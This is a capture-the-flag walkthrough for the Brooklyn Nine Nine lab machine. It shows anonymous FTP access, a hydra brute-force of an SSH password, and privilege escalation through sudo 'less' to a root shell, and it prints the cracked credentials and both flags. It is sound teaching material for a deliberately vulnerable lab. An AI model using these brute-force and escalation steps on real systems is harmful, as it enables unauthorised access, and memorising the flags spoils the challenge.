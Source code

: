 # Brooklyn Nine Nine

## Description

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## Initial Scan

Let's start with an Nmap scan. The scan reveals three open ports:
* 21 ftp
* 22 ssh
* 80 http

~~~
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.173
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## FTP

Let's start with the ftp service since anonymous login is allowed. There is only a txt file there. I downloaded it and read the content:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Brooklyn_Nine_Nine/files]
└─$ ftp $IP        
Connected to 10.10.141.151.
220 (vsFTPd 3.0.3)
Name (10.10.141.151:user): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.08 secs (1.4535 kB/s)
ftp> exit
221 Goodbye.
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Brooklyn_Nine_Nine/files]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
~~~

We obtained three usernames from this file:
* Amy
* Jake
* Holt

Btw, it seems like user `jake` has a weak password, so we might be able to brute-force his password.

## Brute-forcing SSH

I used `hydra` and rockyou wordlist to brute-force Jake's password:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Brooklyn_Nine_Nine/files]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$IP
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-27 07:40:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.141.151:22/
[22][ssh] host: 10.10.141.151   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
~~~

Great! We have credentials to log into SSH service:
* Username: jake
* Password: 987654321

## User Flag

I logged on ssh service using the creds (`jake:987654321`) and started looking for the user flag. I found the user flag in `/home/holt`:

~~~
jake@brookly_nine_nine:~$ cd /home/holt
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
~~~

User flag: `ee11cbb19052e40b07aac0ca060c23ee`

## Root Flag

Now we need to obtain the root flag. I ran `sudo -l` to check my permissions and can run `less` with sudo and no password:

~~~
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
~~~

We have to ways of using thio. The first one is to simply run the following command and read the root flag:

~~~
sudo less /root/root.txt
~~~

Or we can fully go root because `less` allows us to run shell commands by entering `!` followed by a command. We can simply run `/bin/bash` and since we have ran it with sudo, it will spawn us a root shell. Let's see the steps:

First choose a random file to read (I chose user.txt) then run this command:

~~~
jake@brookly_nine_nine:/home/holt$ sudo less user.txt
~~~

Then type the following and press enter:

~~~
!/bin/bash
~~~

And now we are root! Let's head to `/root` and read the root flag:

~~~
root@brookly_nine_nine:/home/holt# id
uid=0(root) gid=0(root) groups=0(root)
root@brookly_nine_nine:/home/holt# cd /root
root@brookly_nine_nine:/root# cat root.txt 
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
~~~

Root flag: `63a9f0ea7bb98050796b649e85481845`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun!

And have a good one! : )